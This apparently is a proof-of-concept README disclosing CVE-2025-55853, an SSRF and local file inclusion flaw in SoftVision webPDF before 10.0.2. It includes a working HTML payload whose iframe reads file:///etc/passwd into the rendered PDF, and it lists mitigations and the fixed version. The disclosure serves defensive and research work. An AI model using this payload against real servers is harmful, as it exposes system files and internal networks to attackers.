

# CVE-2025-55853 - Local File Inclusion via Server Side Request Forgery

> SoftVision webPDF before 10.0.2 is vulnerable to Server-Side Request Forgery (SSRF).

## About
<p align="center"></p>

This PoC for **CVE-2025-55853** demonstrates Server Side Request Forgery in the webPDF tool (<a href="https://portal.webpdf.de/webPDF/" target="_blank" rel="noopener noreferrer">webPDF.</a>) used to convert files to PDF. The PDF converter function does not check if internal or external resources are requested in the uploaded files and allows for protocols such as http:// and file:///. This allows an attacker to upload an XML or HTML file in the application which when rendered to a PDF allows for internal port scanning and Local File Inclusion (LFI).

## Payload
```
<html>
	<head></head>
	<body>
		<a:script xmlns:a="http://www.w3.org/1999/xhtml"><iframe src=file:///etc/passwd height="1000px" width="1000px"></iframe></a:script>
	</body>
</html>
```

## Affected Versions

- Affected `webPDF` version before: **10.0.2**


## Mitigation

- Limit the available protocols to HTTP and HTTPS using an allowlist function.
- Limit requests to internal networks by resolving the domain and blocking requests to internal network
segments.
- Update the webPDF software to webPDF version 10.0.2 or higher

## References

- [webPDF](https://www.webpdf.de/en/)
